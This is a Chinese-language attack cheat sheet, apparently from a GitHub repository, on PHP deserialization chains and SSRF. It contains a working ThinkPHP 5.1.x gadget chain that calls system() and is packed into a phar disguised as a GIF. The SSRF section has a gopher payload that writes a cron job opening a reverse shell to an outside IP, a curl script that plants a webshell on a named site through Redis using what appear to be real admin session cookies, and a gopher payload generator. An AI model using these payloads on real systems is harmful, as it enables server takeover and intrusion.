

- [1 - 反序列化利用链](#1---反序列化利用链)
  - [1.1 基础知识和原理](#11-基础知识和原理)
  - [1.2 利用形式(反序列化入口)](#12-利用形式反序列化入口)
  - [1.3 利用链](#13-利用链)
  - [1.4 生成 `phar` 文件](#14-生成-phar-文件)
  - [1.5 thinkphp 5.1.x 版本反序列化利用链 > see](#15-thinkphp-51x-版本反序列化利用链--see)
  - [1.6 如何规避](#16-如何规避)
- [2 - SSRF漏洞](#2---ssrf漏洞)
  - [2.1 ssrf漏洞示例代码](#21-ssrf漏洞示例代码)
  - [2.2 ssrf 利用协议](#22-ssrf-利用协议)
  - [2.3 ssrf 绕过方法](#23-ssrf-绕过方法)
  - [2.4 dict协议(攻击redis为例)](#24-dict协议攻击redis为例)
  - [2.5 gopher协议](#25-gopher协议)

## 1 - 反序列化利用链

### 1.1 基础知识和原理

* 反序列化会从给定的**序列化串**来还原对象,并调用 `__wakeup` 来做唤醒工作, 而不调用 `__construct` 来初始化对象
* 还原的对象会带上序列化时指定的属性, 这部分可被利用来作为**恶意代码输入点**.
* 恶意代码仅放在属性中并不会被执行, 所以一般利用 `__destruct` 在对象销毁的时候,通过巧妙构造传递属性来让恶意代码被执行, 这中间可能还需要借助其他类对象.
* 因此, 只要存在受用户控制的**反序列化入口**, 即可通过特别构造的**序列化串**来达到搞事情的目的.

### 1.2 利用形式(反序列化入口)

* 直接调用反序列化函数, `unserialize(base64_decode($_POST['serialized_string']));`
* 下列函数在载入`phar` 时候也会触发反序列化, 如 `is_dir('phar://phar.gif')`

| column1 | column2 | column3 | column4 | column5 | column6
------- | ------- | ------- | ------- | ------- | -------
fileatime | filectime | filemtime | file_exists | file_get_contents | file_put_contents
file | filegroup | fopen | fileinode | fileowner | fileperms
is_dir | is_file | is_link | is_executable | is_readable | is_writeable
is_wirtble | parse_ini_file | copy | unlink | stat | readfile

* `phar` 对文件名后缀没要求,可用来绕过上传限制
* `phar` 文件本地生成需 `php.ini` 设置 `phar.readonly = 0`

### 1.3 利用链
* 常见起点
```php
__wakeup // 一定会调用, 反序列化为对象时

__destruct // 一定会调用, 对象被销毁时

__toString // 当一个对象被反序列化后又被当做字符串使用
```
* 常见中间跳板
```php
__toString // 当一个对象被当做字符串使用

__get // 读取不可访问或不存在属性时被调用

__set // 当给不可访问或不存在属性赋值时被调用

__isset // 对不可访问或不存在的属性调用isset()或empty()时被调用
```
* 常见终点
```php
__call // 调用不可访问或不存在的方法时被调用

call_user_func // 一般php代码执行都会选择这里

call_user_func_array // 一般php代码执行都会选择这里

$closure($value, $params); //
```

### 1.4 生成 `phar` 文件

```php
@unlink("phar.gif");
$phar = new \Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new Xxxx(); // 要序列化的对象
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
rename("phar.phar", "phar.gif");
```

### 1.5 thinkphp 5.1.x 版本反序列化利用链 > [see](https://nikoeurus.github.io/2019/12/31/ThinkPHP%205.1.x%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

```php
<?php
namespace think\process\pipes{
    class Windows
    {
        public $files = [];
    }
}

namespace think\model\concern{
    trait Conversion
    {
        public $visible = [];
        public $relation = [];
    }
    trait Attribute
    {
        public $data = [];
        public $withAttr = [];
    }
}

namespace think{
    use think\model\concern\Conversion;
    use think\model\concern\Attribute;
    abstract class Model
    {
        use Conversion;
        use Attribute;

        public function __construct($relation=[],$visible=[],$data=[],$withAttr=[])
        {
            $this->relation = $relation;
            $this->visible = $visible;
            $this->data = $data;
            $this->withAttr = $withAttr;
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
        public function __construct($relation=[],$visible=[],$data=[],$withAttr=[])
        {
            parent::__construct($relation,$visible,$data,$withAttr);
        }
    }
}

namespace {
    $relation = [];
    $visible = array("abc");
    $data = array("abc" => "echo 'hacked' > ./uploads/hacked.txt");
    $withAttr = array("abc"=>"system");
    $pivot = new think\model\Pivot($relation,$visible,$data,$withAttr);
    $windows = new think\process\pipes\Windows();
    $windows->files = [$pivot];

    // 形式一: 直接序列化
    // echo base64_encode(serialize($windows));

    // 形式二: 序列化后存入 phar 的 Metadata
    @unlink("phar.gif");
    $phar = new \Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($windows); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
    rename("phar.phar", "phar.gif");
}
```

### 1.6 如何规避
* 杜绝反序列化利用链的存在
* 任何函数调用, 特别是 1.2 中列举的函数, 应避免直接接收用户输入

## 2 - SSRF漏洞

> 参考1: [https://xz.aliyun.com/t/5665](https://xz.aliyun.com/t/5665)
> 参考2: [https://xz.aliyun.com/t/8613](https://xz.aliyun.com/t/8613)



`file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()等函数使用不当会造成SSRF漏洞`

### 2.1 ssrf漏洞示例代码
```php
<?php
if (isset($_POST['url'])){
    $link = $_POST['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);
    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result);
    echo $result;
}
```

### 2.2 ssrf 利用协议

* `file`： 在有回显的情况下，利用 file 协议可以读取任意内容
    ```shell
    # 示例
    curl -vvv 'file:///etc/passwd'
    curl -v 'http://39.x.x.x:8000/ssrf.php?url=file:///etc/passwd'
    ```

* `dict`：泄露安装软件版本信息，查看端口，操作内网redis服务等
    ```shell
    # 示例
    curl -v 'http://39.x.x.x:8000/ssrf.php?url=dict://127.0.0.1:6379/flushall'
    ```
* `gopher`：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell
    ```shell
    #示例
    curl -v 'http://39.x.x.x:8000/ssrf.php?url=gopher://192.168.1.4:6379/_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f121.36.67.230%2f5555%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'
    ```
* `http/s`：探测内网主机存活

### 2.3 ssrf 绕过方法

* 利用 @
```
http://abc@127.0.0.1
实际上是以用户名abc连接到站点127.0.0.1，同理
http://8.8.8.8@127.0.0.1:8080、http://127.0.0.1#8.8.8.8
```
```
http://www.aaa.com@www.bbb.com@www.ccc.com
在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com
```

* 利用[::] `http://[::]:80/`  >>>  `http://127.0.0.1`
* 添加端口号 `http://127.0.0.1:8080`
* 利用短网址
* 利用特殊域名,如`127.0.0.1.xip.io`，可解析为`127.0.0.1`
* 利用DNS解析
* 利用进制转换
  ```
  127.0.0.1   // 正常模式
  0177.0.0.1  // 8进制
  0x7f.0.0.1  // 16进制
  2130706433  // 10进制
  ```
* 句号 `127。0。0。1`  >>>  `127.0.0.1`
* 302跳转 `可使用https://tinyurl.com生成302跳转地址`

### 2.4 dict协议(攻击redis为例)

* 基本信息: `dict://127.0.0.1:6379/info`
* 清空redis: `dict://127.0.1:6379/flushall`
* 设置键值对 `dict://127.0.0.1:6379/set:webshell:"xxxxx"`
  > 若字符串中有空格需要将完整字符串用双引号"包起来, 若字符串中带有 ? 等特殊字符, 可转化为十六进制形式
* ascii文本转hex `ascii2hex '<?php phpinfo();?>'`
  ```shell
  alias ascii2hex='_func(){echo "$1" | hexdump -vC |  awk '\''BEGIN {IFS="\t"} {$1=""; print }'\'' | awk '\''{sub(/\|.*/,"")}1'\'' | tr -d '\''\n'\''|sed '\''s/  / /g'\'' |sed '\''s/ /\\x/g'\''|rev|cut -c 3- |rev }; _func'
  ```
* 攻击脚本 `dict.sh`, 某网站暴露ssrf漏洞参数 `reply_image`, 如下脚本通过多次 post, 通过 dict, 攻击 redis 写入一句话脚本
```shell
#!/bin/bash
curl 'http://www.xxxxxxxx.com/mp/mp/addKeyword' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: think_admin=think%3A%7B%22id%22%3A%221%22%2C%22admin_name%22%3A%22zhoulin1230%22%2C%22password%22%3A%22c843af71dc17c2e605946aa6f5346f0e%22%2C%22status%22%3A%221%22%2C%22ip%22%3A%2227.26.220.222%22%2C%22last_time%22%3A%221592559280%22%2C%22rand_str%22%3A%22TOdLnC%22%2C%22admin_id%22%3A%221%22%7D; PHPSESSID=i4tl25v8f369muq7qeddv6out3' \
  --data-raw 'keyword=abc&type=image&reply_image=dict://redis:6379/flushall&image_staus_type=0'

curl 'http://www.xxxxxxxx.com/mp/mp/addKeyword' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: think_admin=think%3A%7B%22id%22%3A%221%22%2C%22admin_name%22%3A%22zhoulin1230%22%2C%22password%22%3A%22c843af71dc17c2e605946aa6f5346f0e%22%2C%22status%22%3A%221%22%2C%22ip%22%3A%2227.26.220.222%22%2C%22last_time%22%3A%221592559280%22%2C%22rand_str%22%3A%22TOdLnC%22%2C%22admin_id%22%3A%221%22%7D; PHPSESSID=i4tl25v8f369muq7qeddv6out3' \
  --data-raw 'keyword=abc&type=image&reply_image=dict://redis:6379/set:webshell:"\\x3c\\x3f\\x70\\x68\\x70\\x20\\x70\\x68\\x70\\x69\\x6e\\x66\\x6f\\x28\\x29\\x3b\\x20\\x65\\x78\\x69\\x74\\x3b\\x3f\\x3e\\x0a"&image_staus_type=0' \

curl 'http://www.xxxxxxxx.com/mp/mp/addKeyword' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: think_admin=think%3A%7B%22id%22%3A%221%22%2C%22admin_name%22%3A%22zhoulin1230%22%2C%22password%22%3A%22c843af71dc17c2e605946aa6f5346f0e%22%2C%22status%22%3A%221%22%2C%22ip%22%3A%2227.26.220.222%22%2C%22last_time%22%3A%221592559280%22%2C%22rand_str%22%3A%22TOdLnC%22%2C%22admin_id%22%3A%221%22%7D; PHPSESSID=i4tl25v8f369muq7qeddv6out3' \
  --data-raw 'keyword=abc&type=image&reply_image=dict://redis:6379/config:set:dir:"/www/wwwroot/www.xxxxxxxx.com"&image_staus_type=0'

curl 'http://www.xxxxxxxx.com/mp/mp/addKeyword' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: think_admin=think%3A%7B%22id%22%3A%221%22%2C%22admin_name%22%3A%22zhoulin1230%22%2C%22password%22%3A%22c843af71dc17c2e605946aa6f5346f0e%22%2C%22status%22%3A%221%22%2C%22ip%22%3A%2227.26.220.222%22%2C%22last_time%22%3A%221592559280%22%2C%22rand_str%22%3A%22TOdLnC%22%2C%22admin_id%22%3A%221%22%7D; PHPSESSID=i4tl25v8f369muq7qeddv6out3' \
  --data-raw 'keyword=abc&type=image&reply_image=dict://redis:6379/config:set:dbfilename:"test.php"&image_staus_type=0'

curl 'http://www.xxxxxxxx.com/mp/mp/addKeyword' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: think_admin=think%3A%7B%22id%22%3A%221%22%2C%22admin_name%22%3A%22zhoulin1230%22%2C%22password%22%3A%22c843af71dc17c2e605946aa6f5346f0e%22%2C%22status%22%3A%221%22%2C%22ip%22%3A%2227.26.220.222%22%2C%22last_time%22%3A%221592559280%22%2C%22rand_str%22%3A%22TOdLnC%22%2C%22admin_id%22%3A%221%22%7D; PHPSESSID=i4tl25v8f369muq7qeddv6out3' \
  --data-raw 'keyword=abc&type=image&reply_image=dict://redis:6379/save&image_staus_type=0'
```

### 2.5 gopher协议

* 有时服务端在接收参数时,会对参数进行一次 `urldecode`, 因此可能需要对 `gopher` 进行连续两次 `urlencode`
* gopher生成脚本 `gopher.py`
    ```shell
    import urllib
    protocol="gopher://"
    ip="redis"
    port="6379"
    shell="\n\n<?php phpinfo();?>\n\n"
    filename="shell.php"
    path="/data"
    passwd=""
    cmd=["flushall"
        "set 1 {}".format(shell.replace(" ","${IFS}")),
        "config set dir {}".format(path),
        "config set dbfilename {}".format(filename),
        "save"
        ]

    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd

    if __name__=="__main__":
        for x in cmd:
            ''' 如果需要两次url编码, 则再调一次urllib.quote() '''
            payload += urllib.quote(urllib.quote(redis_format(x)))
        print payload
    ```